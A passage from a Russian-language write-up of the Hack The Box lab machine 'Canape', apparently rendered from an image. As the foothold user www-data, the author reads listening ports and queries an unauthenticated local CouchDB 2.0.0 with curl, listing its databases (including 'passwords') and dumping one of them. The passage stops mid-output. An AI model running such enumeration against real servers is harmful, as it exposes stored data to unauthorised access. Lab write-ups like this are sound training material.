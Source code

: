 ```text
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
...
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -                off (0.00/0/0)
...
```

Конечно, я знал, что ищу: из init-скрипта стало известно о том, что на сервере будет крутиться CouchDB, а если задуматься о название бокса (фр. canapé — "[канапе](https://ru.wikipedia.org/wiki/Канапе_(мебель) "Канапе (мебель) — Википедия")"), все сразу станет на свои места.

# Захват пользователя
Мы знаем следующий шаг — это СУБД CouchDB (версии 2.0.0), найденная в запущенных процессах и слушающая свои дефолтные порты.

Постучимся же!
```text
www-data@canape:/$ curl -X GET http://127.0.0.1:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

Есть контакт. Пошаримся по базе:
```text
www-data@canape:/$ curl -X GET http://127.0.0.1:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]

www-data@canape:/$ curl -X GET http://127.0.0.1:5984/simpsons
{"db_name":"simpsons","update_seq":"7-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkQmPoiQFIJlkD1bHjE-dA0hdPFgdAz51CSB19WB1jHjU5bEASYYGIAVUOp8YtQsgavfjtx-i9gBE7X1i1D6AqAX5KwsA2vVvNQ","sizes":{"file":62767,"external":1320,"active":2466},"purge_seq":0,"other":{"data_size":1320},"doc_del_count":0,"doc_count":7,"disk_size":62767,"disk_format_version":6,"data_size":2466,"compact_running":false,"instance_start_time":"0"}

www-data@canape:/$ curl -X GET http://127.0.0.1:5984/simpsons?include_docs=true
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"},"doc":{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"},"doc":{"_id":"f53679a526a868d44172c83a61000d86","_rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e","character":"Marge","quote":"I don’t want to alarm anybody, but I think there’s a little al-key-hol in this punch."}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"},"doc":{"_id":"f53679a526a868d44172c83a6100183d","_rev":"1-e522ebc6aca87013a89dd4b37b762bd3","character":"Bart","quote":"Eat My Shorts!"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"},"doc":{"_id":"f53679a526a868d44172c83a61002980","_rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc","character":"Maggie","quote":"Good night"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"},"doc":{"_id":"f53679a526a868d44172c83a61003068","_rev":"1-3d2f7da6bd52442e4598f25cc2e84540","character":"Lisa","quote":"Prayer. The last refuge of a scoundrel."}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"},"doc":{"_id":"f53679a526a868d44172c83a61003a2a","_rev":"1-4446bfc0826ed3d81c9115e450844fb4","character":"Apu","quote":"Please, could you just take the children home? The porno magazine buyers are too embarrassed to make their move. Look."}},
```